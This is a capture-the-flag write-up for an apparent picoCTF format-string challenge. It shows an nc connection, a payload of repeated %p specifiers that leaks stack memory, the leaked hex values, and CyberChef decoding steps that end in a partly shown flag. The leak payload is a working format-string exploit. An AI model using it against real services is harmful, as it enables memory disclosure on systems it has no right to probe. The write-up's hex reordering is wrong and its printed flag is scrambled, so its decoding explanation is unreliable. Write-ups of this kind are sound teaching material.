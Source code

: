 Can connect via this command: nc mimas.picoctf.net 57322

This payload of many %p values with commas could be sent to get the relevant values.

%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p

This gives many hex values:

0x402118,(nil),0x73d0dde92a00,(nil),0x811880,0xa347834,0x7ffe00d7f2f0,0x73d0ddc83e60,0x73d0ddea84d0,0x1,0x7ffe00d7f3c0,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x35625f673431665f,0x7d663839623764,0x7,0x73d0ddeaa8d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9

Then put it in CyberChef to convert from hex.

From there all of the bad values could be removed and easily seen what are the correct values that need to be looked at:

0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x35625f673431665f,0x7d663839623764

It first could be seen that it is in reverse order so in CyberChef the reverse function could be added. It now looks like the text is in the right order because "picoCTF{" could be seen however it doesn't look like the flag because the actual hex values need to be re-arranged as well. Here is the correct order:

0x7d663839623764,0x355f31346d316e34,0x35625f673431665f,0x3478345f33317937,0x7b4654436f636970

Decoding this should give the flag.

Flag: picoCTF{7y13_4x4_f14g_b54n1m41_5d7...}
